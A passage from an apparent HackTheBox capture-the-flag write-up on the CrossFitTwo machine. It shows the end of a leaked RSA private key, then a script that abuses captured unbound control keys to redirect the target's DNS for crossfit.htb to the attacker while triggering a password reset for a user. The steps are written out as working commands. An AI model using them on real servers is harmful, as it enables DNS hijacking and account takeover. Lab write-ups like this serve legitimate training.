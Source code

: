 ```php
+HI272PrIJJaXvrAJgZr7MOzw2olZ7pph/AywkfnQK/npPHiSQKBwCsSUG0uq8dh
Hz8D1tE7GdpJKPSCzbH69kBly6QZsp7mcaHOXQSIpVJsE94PQFhSHLmEf63ljV1P
Tqob+fMl1zU/1GNcCy8ZG3kcIaO3LnMSgb3eTRHTejQBP32a3JaXBCtJ0FZQkljG
ctYw9KpX23XJmQgoLdDjQjYtp5gsITwJTlVv6fEqXFygRfl5kzfwAgn8m4zi8NyB
B1BfdaJYkNzVBJ9uWoxZfc00PJnEsZRle7tVvaC+gBB0dJuby17hQA==
-----END RSA PRIVATE KEY-----
```


## Unbound dns spoof

First we need to install unbound with apt and stop the service because we will need port `53` udp later to spoof dns.

```php
$ sudo apt-get install unbound
$ sudo systemctl stop unbound
```

We then copy all these keys to `/etc/unbound/unbound_server.pem` `/etc/unbound/unbound_control.pem` `/etc/unbound/unbound_control.key` respectivly.

Now we are able to add a forward lookup zone to the target to query every unknown subdomain of `crossfit.htb` from our machine. We pack the unbound command with a curl request to reset the password for david in a small bash script, since both need to happen after one another anyways and the server seems to reset the forward zones again after some time. 

`forward_and_reset.sh`
```bash
#!/bin/bash

unbound-control  -s 10.129.68.20 forward_add +i crossfit.htb 10.10.14.65
curl -i -s -k -XPOST  -H 'Host: sm1l3z.employees.crossfit.htb'  -H 'Content-Type: application/x-www-form-urlencoded' -d 'email=david.palmer%40crossfit.htb' 'http://sm1l3z.employees.crossfit.htb/password-reset.php'
```

Starting wireshark and listening on our vpn interface filtering traffic for dns we execute the script with sudo.

```php
sudo ./forward_and_reset.sh
ok
```

Looking at wireshark we can see the target is indeed sending a dns request to us which obviously fails right now.

[![wireshark_lookup](/img/crossfittwo/wireshark_lookup.png)](/img/crossfittwo/wireshark_lookup.png)

The output from the curl command has also some interesting information, mentioning that the reset has to happen from  localhost. This means we need to spoof the first request to point to `127.0.0.1`.
